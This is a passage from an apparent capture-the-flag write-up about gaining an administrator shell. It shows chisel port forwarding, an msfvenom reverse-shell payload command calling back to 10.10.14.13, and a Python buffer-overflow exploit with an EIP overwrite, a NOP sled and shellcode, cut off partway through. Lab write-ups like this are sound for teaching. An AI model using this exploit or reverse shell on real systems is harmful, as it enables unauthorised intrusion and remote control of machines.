 ## shell as administrator

I will do the same procedure, first I will copy chisel in the target machine 

```shell
C:\Windows\Temp\x>copy \\10.10.14.13\smbFolder\chisel_1.7.3_windows_amd64 . 
copy \\10.10.14.13\smbFolder\chisel_1.7.3_windows_amd64 . 
        1 file(s) copied.
```

I close the previous chisel client connection I had from the windows_debug machine and connect the target machine to my server

```shell
C:\Windows\Temp\x>chisel_1.7.3_windows_amd64 client 10.10.14.13:1234 R:8888:127.0.0.1:8888 
chisel_1.7.3_windows_amd64 client 10.10.14.13:1234 R:8888:127.0.0.1:8888 
2024/08/20 23:09:44 client: Connecting to ws://10.10.14.13:1234
2024/08/20 23:09:45 client: Connected (Latency 107.6835ms)
```

I generate a new shellcode with my updated ip address of the tun0 interface

```
$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.13 lport=9001 -b "\x00\x0a\x0d\xff" -f py -v shellcode EXITFUNC=thread
```

final exploit

```python
#!/usr/bin/env python3

from pwn import *

context(arch="i386",os="linux")

def exploit():
    host = "127.0.0.1" #change this
    port = 8888 #change this
    
    buffer = b"\x55" * 1052
#    with open('./pattern','r') as file:
#        buffer=file.read()
    #eip
    eip = p32(0x0051e583)
    
    #nops
    nops = b"\x90" * 32

    #shellcode
    # msfvenom -p windows/shell_reverse_tcp lhost=IP_LHOST lport=PORT -b "\x00\x0a\x0d\xff" -f py -v shellcode EXITFUNC=thread
    shellcode =  b""
    shellcode += b"\xdb\xce\xd9\x74\x24\xf4\xbb\xb9\x46\xc1\xe7"
    shellcode += b"\x5a\x31\xc9\xb1\x52\x83\xea\xfc\x31\x5a\x13"
    shellcode += b"\x03\xe3\x55\x23\x12\xef\xb2\x21\xdd\x0f\x43"
    shellcode += b"\x46\x57\xea\x72\x46\x03\x7f\x24\x76\x47\x2d"
    shellcode += b"\xc9\xfd\x05\xc5\x5a\x73\x82\xea\xeb\x3e\xf4"
    shellcode += b"\xc5\xec\x13\xc4\x44\x6f\x6e\x19\xa6\x4e\xa1"
    shellcode += b"\x6c\xa7\x97\xdc\x9d\xf5\x40\xaa\x30\xe9\xe5"
    shellcode += b"\xe6\x88\x82\xb6\xe7\x88\x77\x0e\x09\xb8\x26"
    shellcode += b"\x04\x50\x1a\xc9\xc9\xe8\x13\xd1\x0e\xd4\xea"
    shellcode += b"\x6a\xe4\xa2\xec\xba\x34\x4a\x42\x83\xf8\xb9"
    shellcode += b"\x9a\xc4\x3f\x22\xe9\x3c\x3c\xdf\xea\xfb\x3e"
    shellcode += b"\x3b\x7e\x1f\x98\xc8\xd8\xfb\x18\x1c\xbe\x88"
    shellcode += b"\x17\xe9\xb4\xd6\x3b\xec\x19\x6d\x47\x65\x9c"
    shellcode += b"\xa1\xc1\x3d\xbb\x65\x89\xe6\xa2\x3c\x77\x48"
```